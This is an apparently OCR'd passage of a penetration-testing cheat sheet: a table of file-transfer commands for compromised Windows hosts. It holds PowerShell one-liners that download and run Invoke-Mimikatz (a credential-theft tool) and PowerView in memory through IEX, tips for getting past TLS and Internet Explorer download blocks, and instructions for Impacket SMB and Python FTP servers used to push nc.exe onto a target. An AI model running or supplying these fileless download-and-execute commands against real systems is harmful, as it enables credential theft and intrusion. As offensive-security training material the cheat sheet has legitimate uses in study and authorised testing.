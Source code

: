 | `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')` **OR** `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') \| IEX` | PowerShell DownloadString - Fileless Method -PWSH                                                                                                                                              |
| `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`                                                                                                                                                                                                                  | From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. -PWSH                                                           |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 \| IEX`                                                                                                                                                                                                                                                                                             | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -UseBasicParsing. -PWSH |
| `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`                                                                                                                                                                                                           | Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command -PWSH                    |
| **SMB File Sharing**                                                                                                                                                                                                                                                                                                                              |                                                                                                                                                                                                |
| `sudo impacket-smbserver share -smb2support /tmp/smbshare` **OR** `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`                                                                                                                                                                                            | We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with smbserver.py from Impacket                                                         |
| `copy \\192.168.220.133\share\nc.exe` **OR** `net use n: \\192.168.220.133\share /user:test test`                                                                                                                                                                                                                                                 | Copy a File from the SMB Server -CMD                                                                                                                                                           |
| **FTP File Sharing**                                                                                                                                                                                                                                                                                                                              |                                                                                                                                                                                                |
| `sudo pip3 install pyftpdlib`                                                                                                                                                                                                                                                                                                                     | Installing the FTP Server Python3 Module - pyftpdlib                                                                                                                                           |
| `sudo python3 -m pyftpdlib --port 21`                                                                                                                                                                                                                                                                                                             | Setting up a Python3 FTP Server                                                                                                                                                                |
| `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')`                                                                                                                                                                                                                                                        | Transfering Files from an FTP Server Using PowerShell                                                                                                                                          |
